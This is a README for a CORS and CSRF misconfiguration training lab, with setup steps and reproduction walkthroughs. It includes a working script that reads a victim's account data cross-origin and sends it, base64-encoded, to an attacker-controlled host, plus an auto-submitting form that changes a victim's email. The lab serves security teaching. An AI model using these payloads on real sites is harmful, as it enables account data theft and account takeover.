



[README.md](https://github.com/user-attachments/files/30963354/README.md)
# CSRF & CORS Misconfiguration Lab

Github lab link:

This Repository contains CSRF & CORS misconfiguration related vulnerable codes.

## How to run

1. Run the lab via docker

Start the lab locally using:

```bash
docker compose up --build
```

2. Convert the docker port to a public website using ngrok:

```bash
ngrok http 8080
```

It transfers the port to the public site that we will work on our attack.

---

## CORS — Application has bad regex implementation to check trusted origin

The application has a CORS policy implemented and performs a "Regex" check for whitelisted Domain/Sub-domains. In this scenario, the application has a weak regex implementation in code which just checks for the presence of the domain name "example.com" anywhere in the HTTP request "Origin" header. If the HTTP header "Origin" has the value "hackexample.com" or "example.comhacker.com", the regex will make it pass. This misconfiguration will lead to sharing of data over cross origin.

### Steps to reproduce

1. Log in to the account and click on `bad_regex.php`.
2. Find the resulting request and send it to Repeater, then resubmit it with the added header `Origin: https://hackexample.com`.
3. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.

```http
GET /bad_regex HTTP/1.1
Host: example.com
Origin: https://hackexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://hackexample.com
Access-Control-Allow-Credentials: true
```

4. Go to your exploit server and put this script that must be hosted at `hackexample.com`:

```html
<script>
    var request = new XMLHttpRequest();
    request.open("GET", "https://f800-156-210-216-165.ngrok-free.app/bad_regex.php", true);
    request.withCredentials = true;

    request.onload = function() {
        fetch("https://hackexample.com/log?data=" + btoa(request.responseText));
    };

    request.send();
</script>
```

5. Send the link to the victim. When the victim opens the link, you will find his account information in the server logs encoded in base64 — decode it to get the information.



---

## CSRF — The application does not verify the CSRF token correctly

When updating the email, the site sends a request. In this request, the user's token is sent to confirm his identity, and in this regard, the token is verified only in case the method is `POST`. So if you change the method of this request to any other method such as `GET` and delete the token parameter, the user's identity will not be verified and the request will pass, enabling the hacker to change the victim's email.

### Steps to reproduce

1. Submit the update email form and find the resulting request in the proxy history, then send it to Repeater.

2.

**A.** If you're using Burp Suite Professional, right click on the request and select "Change method" to change the method from `POST` to `GET`, then right-click on the request and select "Engagement tools" / "Generate CSRF PoC".



**B.** Alternatively, if you're using Burp Suite Community Edition, use the following HTML template:

```html
<form action="lab_link">
    <input type="hidden" name="email" value="hacker@gmail.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

3. Go to the exploit server, put your exploit HTML, and deliver it to the victim to change the email.


